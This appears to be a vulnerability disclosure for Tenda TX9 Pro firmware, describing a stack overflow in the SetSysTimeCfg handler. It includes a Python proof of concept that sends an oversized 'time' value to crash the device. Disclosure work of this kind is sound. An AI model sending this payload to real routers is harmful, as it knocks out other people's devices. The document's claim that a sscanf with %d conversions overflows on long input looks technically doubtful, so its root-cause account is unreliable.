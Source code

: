 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-4219.html

## Affected version

TX9 Pro Firmware  V22.03.02.10

## Vulnerability details

The Tenda TX9 Pro Firmware  V22.03.02.10 firmware has a stack overflow vulnerability in the `sub_42D4DC` function. The `v2` variable receives the `timeType` parameter from a POST request and we let `v2=="sync"` to execute  `LABEL_3`. 

![image-20240416114101039](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114101039.png)

The `v7` variable receives the `time` parameter from a POST request. However, since the user can control the input of `time`, the statement `if ( sscanf(v7, " %d-%d-%d %d:%d:%d", &v14, &v13, &v12[12], &v12[8], &v12[4], v12) == 6 )` can cause a buffer overflow. The user-provided  `time` can exceed the capacity of the `v12~v14` array, triggering this security vulnerability.

![image-20240416114151064](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114151064.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'timeType':'sync',
        'time':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)

